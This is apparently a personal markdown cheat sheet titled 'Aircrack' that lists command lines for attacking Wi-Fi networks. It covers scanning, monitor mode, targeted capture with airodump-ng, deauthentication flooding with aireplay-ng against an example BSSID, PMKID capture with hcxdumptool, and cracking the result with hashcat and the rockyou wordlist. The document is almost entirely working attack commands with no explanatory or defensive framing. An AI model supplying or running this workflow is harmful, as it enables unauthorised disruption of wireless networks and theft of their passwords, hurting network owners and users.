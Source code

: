 ```yaml
---
title : Aircrack 
date : 21-06-21
layout : post
---
```



# scan the wifi : 
sudo iwlist scan 

# top networks
sudo airdump-ng start wlo1mon , or , 
sudo airodump-ng wlo1mon --write scan --output-format csv

# get all wifi present and bssid
sudo iw dev wlo1 scan 


## monitor mode

sudo airmon-ng start wlo1

## manager mode

sudo airmon-ng stop wlo1mon



## airodump : 


sudo airodump-ng --bssid <bssid> -c <channel-name> -w capture wlo1mon

eg:
sudo airodump-ng --bssid 6c:4f:89:9a:3f:af -c 44 -w capture wlo1mon

## aireplay 

sudo aireplay-ng --deauth 20 -a 6c:4f:89:9a:3f:af wlo1mon --ignore-negative-one



# HASHCAT 


##-- PMKID --##

#hcxdump-tool
sudo hcxdumptool -i wlo1mon -w pmkid.pcapng --rds=1

#tool to unpack
hcxpcapngtool -o pmkid.hccapx pmkid.pcapng

#
hcxpcapngtool -o pmkid.hc22000 pmkid.pcapng


#
hashcat -m 22000 pmkid.hc22000 rockyou.txt --force










